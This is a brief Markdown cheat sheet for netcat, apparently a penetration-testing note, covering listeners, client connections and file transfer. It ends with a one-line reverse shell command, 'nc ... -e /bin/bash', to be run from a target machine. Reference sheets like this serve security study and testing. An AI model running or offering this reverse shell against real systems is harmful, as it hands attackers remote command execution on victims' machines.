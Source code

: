 # Netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp PORT
```
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

To listen on UDP must use `-u`.

## Client Mode
Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection
```bash
$ nc -vn @IP PORT
```

For a udp connection we only add the `-u` option.

## 

File Transfer

Setup a listener on host that pushes to an outfile:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the client (remote machine), push a file back to the listener:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

## 

Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# 

Tags

[#cheat-sheet](app://obsidian.md/index.html#cheat-sheet)